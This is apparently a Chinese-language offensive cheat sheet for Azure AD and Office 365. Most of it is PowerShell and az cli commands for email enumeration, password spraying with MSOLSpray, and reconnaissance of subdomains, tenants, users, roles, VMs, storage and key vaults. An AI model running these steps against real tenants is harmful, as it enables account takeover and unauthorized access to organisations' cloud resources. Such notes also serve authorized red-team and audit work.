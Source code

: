   #### 枚举有效的电子邮件
  	默认情况下，O365 的锁定策略为 10 次尝试，它将锁定一个帐户1分钟。
	检查电子邮件
	PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
	admin@<TENANT NAME>.onmicrosoft.com   - VALID
	root@<TENANT NAME>.onmicrosoft.com    - INVALID
	test@<TENANT NAME>.onmicrosoft.com    - VALID
	contact@<TENANT NAME>.onmicrosoft.com - INVALID
	提取具有有效凭据的电子邮件列表：https ://github.com/nyxgeek/o365recon
	密码喷射
	PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
	PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
  #### 枚举 Azure 子域
  	PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
	PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
	Subdomain Service
	--------- -------
	<TENANT NAME>.mail.protection.outlook.com Email
	<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
  #### 使用 Azure AD Powershell 枚举租户
	Import-Module C:\Tools\AzureAD\AzureAD.psd1
	Import-Module C:\Tools\AzureADPreview\AzureADPreview.psd1
	PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
	PS> $creds = New-Object System.Management.Automation.PSCredential("test@<TENANT NAME>.onmicrosoft.com", $passwd)
	PS Az> Connect-AzureAD -Credential $creds

	PS AzureAD> Get-AzureADUser -All $true
	PS AzureAD> Get-AzureADUser -All $true | select UserPrincipalName
	PS AzureAD> Get-AzureADGroup -All $true
	PS AzureAD> Get-AzureADDevice
	PS AzureAD> Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
	PS AzureADPreview> Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName
  #### 使用 Az Powershell 枚举租户
  	PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
	PS> $creds = New-Object System.Management.Automation.PSCredential ("test@<TENANT NAME>.onmicrosoft.com", $passwd)
	PS Az> Connect-AzAccount -Credential $creds

	PS Az> Get-AzResource
	PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com
	PS Az> Get-AzVM | fl
	PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}
	PS Az> Get-AzFunctionApp
	PS Az> Get-AzStorageAccount | fl
	PS Az> Get-AzKeyVault
  #### 使用 az cli 枚举租户
  	PS> az login -u test@<TENANT NAME>.onmicrosoft.com -p <PASSWORD>
	PS> az vm list
	PS> az vm list --query "[].[name]" -o table
	PS> az webapp list
	PS> az functionapp list --query "[].[name]" -o table
	PS> az storage account list
	PS> az keyvault list
  #### 手动枚举
  	与 Azure AD 或 O365 联合
	https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
	https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
	获取租户 ID
	https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
	https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
  #### 枚举方法
  	检查 Azure 加入 
	PS> dsregcmd.exe /status
	+----------------------------------------------------------------------+
	| Device State |
	+----------------------------------------------------------------------+
	 AzureAdJoined : YES
	 EnterpriseJoined : NO
	 DomainJoined : NO
	 Device Name : jumpvm

	枚举资源
	PS Az> Get-AzResource

	枚举角色分配
	PS Az> Get-AzRoleAssignment -Scope /subscriptions/<SUBSCRIPTION-ID>/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/<VM-NAME>`

	获取角色信息
	PS Az> Get-AzRoleDefinition -Name "Virtual Machine Command Executor"

	获取信息用户
	PS AzureAD> Get-AzureADUser -ObjectId <ID>
	PS AzureAD> Get-AzureADUser -ObjectId test@<TENANT NAME>.onmicrosoft.com | fl * 

	列出所有组
	PS AzureAD> Get-AzureADGroup -All $true

	列出一个组的用户
	PS Az> Get-AzADGroup -DisplayName '<GROUP-NAME>'
	PS Az> Get-AzADGroupMember -GroupDisplayName '<GROUP-NAME>' | select UserPrincipalName

	获取Azure AD 信息
	PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
	PS AADInternals> Get-AADIntLoginInformation -UserName admin@<TENANT NAME>.onmicrosoft.com
	PS AADInternals> Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com # Get Tenant ID
	PS AADInternals> Invoke-AADIntReconAsOutsider -DomainName <DOMAIN> # Get all the information

	检查是否有用户登录到 az cli
	PS> az ad signed-in-user show

	检查 AppID 备用名称/显示名称
	PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl


	获取使用当前租户注册的所有应用程序对象
	PS AzureAD> Get-AzureADApplication -All $true

	获取有关应用程序的所有详细信息
	PS AzureAD> Get-AzureADApplication -ObjectId <ID> | fl *

	列出用户有权访问的所有 VM
	PS Az> Get-AzVM 
	PS Az> Get-AzVM | fl

	获取所有功能应用
	PS Az> Get-AzFunctionApp

	获取所有网络应用
	PS Az> Get-AzWebApp
	PS Az> Get-AzWebApp | select-object Name, Type, Hostnames

	列出所有存储帐户
	PS Az> Get-AzStorageAccount
	PS Az> Get-AzStorageAccount | fl

	列出所有密钥库
	PS Az> Get-AzKeyVault